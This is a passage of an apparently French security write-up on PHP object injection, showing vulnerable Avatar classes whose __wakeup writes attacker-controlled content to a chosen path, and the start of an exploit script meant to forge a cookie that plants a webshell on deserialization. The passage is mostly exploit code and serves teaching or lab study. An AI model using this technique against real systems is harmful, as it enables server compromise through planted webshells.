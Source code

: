 ```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");    // <==== propriété 'imgPath' controllable
        fwrite($f, file_get_contents($tmp)); // <==== propriété 'tmp' controllable
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

#### Exploitation

On crée puis exécute ce script qui générera un cookie valide qui une fois désérialisé, créera le fichier `$payload_path ` qui contiendra `$payload` :

```php
<?php
    // code vulnérable unserialize(base64_decode($up_cookie));

    // Attaque : créer un cookie valide qui une fois déserialisé pourra stocker un webshell dans un dossier de notre choix
    // classes vulnérables utilisées :
    class Avatar {
        public $imgPath;
    
        public function __construct($imgPath) {
            $this->imgPath = $imgPath;
        }
    
        public function save($tmp) {
            $f = fopen($this->imgPath, "w");
            fwrite($f, file_get_contents($tmp));
            fclose($f);
        }
    }
    class AvatarInterface {
        public $tmp;
        public $imgPath; 
    
        public function __wakeup() {
            $a = new Avatar($this->imgPath);
            $a->save($this->tmp);
        }
    }

    function println(string $x): void {
        echo $x, PHP_EOL;
    }
    
```